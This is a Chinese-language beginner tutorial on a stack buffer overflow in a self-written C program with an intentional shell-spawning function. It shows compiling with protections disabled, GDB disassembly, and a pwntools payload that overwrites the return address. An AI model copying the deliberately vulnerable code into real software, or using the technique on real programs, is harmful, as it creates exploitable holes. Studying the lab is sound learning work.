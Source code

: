 # Test 学习

---

Pwn 第一个学习案例

---



### 源代码

由C语言编写，Ubuntu20.04 环境，使用 VScode 编写Test.c

```c
#include <stdio.h>

void exploit(){
    system("bin/sh");
}

void func(){
    char str[0x20];
    read(0,str,0x50);   #参数0表示从命令行读取
}

int main(){
    func();
    printf("Success");
    return 0;
}
```



### 编译

**Attention:**不要使用VScode编译，VScode对代码编译默认加上各种保护措施，使用checksec 检查后会得到下图：

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Test_2021-02-14_23-31-49.png)

由上图 可知，所有的保护措施都已开启，不便于实验学习。

因此**我们需要通过终端控制编译，使用命令 gcc -no-pie -fno-stack-protector -z execstack -m32 -o Test Test.c **，关闭保护措施，

得到下图：

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Test_2021-02-14_23-41-46.png)

### 程序分析

#### 	Objdump查看函数

一般的程序，我们得到的都是二进制代码，无源程序------

objdump命令是用查看目标文件或者可执行的目标文件的构成的gcc工具。详情https://man.linuxde.net/objdump

-j name

--section=name 仅仅显示指定名称为name的section的信息

-t

--syms 显示文件的符号表入口。类似于nm -s提供的信息

objdump -t -j .text read//查看read程序的.text段有哪些函数

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Test_2021-02-15_11-24-16.png)

#### GDB调试

1. 反汇编重点函数func 并分析其汇编代码

   ```assembly
   wndbg> disass func			;得到func函数的汇编代码
   Dump of assembler code for function func:
      0x08049205 <+0>:	endbr32 		;无任何操作,无意义。Intel用于表示跳转,给技术要求相对跳转的目标地址一定是一条 endbr32 或 endbr64 指令，否则就会异常。
      0x08049209 <+4>:	push   ebp
      0x0804920a <+5>:	mov    ebp,esp   ;这两句构建栈帧 ，与最后两句相对应  相当于enter
      0x0804920c <+7>:	push   ebx       ;保存寄存器
      0x0804920d <+8>:	sub    esp,0x24   ;留出栈空间
      0x08049210 <+11>:	call   0x8049279 <__x86.get_pc_thunk.ax>
      0x08049215 <+16>:	add    eax,0x2deb
      0x0804921a <+21>:	sub    esp,0x4
      0x0804921d <+24>:	push   0x50			;栈空间小于0x50
      0x0804921f <+26>:	lea    edx,[ebp-0x28]  ;注意填充地址不是从esp开始 而是[ebp-0x28]
      0x08049222 <+29>:	push   edx
      0x08049223 <+30>:	push   0x0
      0x08049225 <+32>:	mov    ebx,eax
      0x08049227 <+34>:	call   0x8049080 <read@plt>
      0x0804922c <+39>:	add    esp,0x10
      0x0804922f <+42>:	nop
      0x08049230 <+43>:	mov    ebx,DWORD PTR [ebp-0x4]  
      0x08049233 <+46>:	leave    ; mov esp;ebp , pop ebp   结束栈帧
      0x08049234 <+47>:	ret     ; 相当于jmp指令
   End of assembler dump.
   pwndbg> 
   
   ```

2. 反汇编 exploit  得到 该函数的起始地址 **0x080491d6**，堆栈图如下所示。**注意填充地址不是从esp开始 而是[ebp-0x28]**

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Test_2021-02-15_21-23-48.png)





### Payload

```python
from pwn import *    #导入库
p = process("./Example/Test")  #加载程序
offset = 0x28+0x4   #偏移量 --->注意填充地址不是从esp开始 而是[ebp-0x28]
payload =b'a'*offset + p32(0x080491da)  # python3 要加字母b表示二进制  填充信息
p.sendline(payload)   # -->输入信息
p.interactive()   # 交互
```

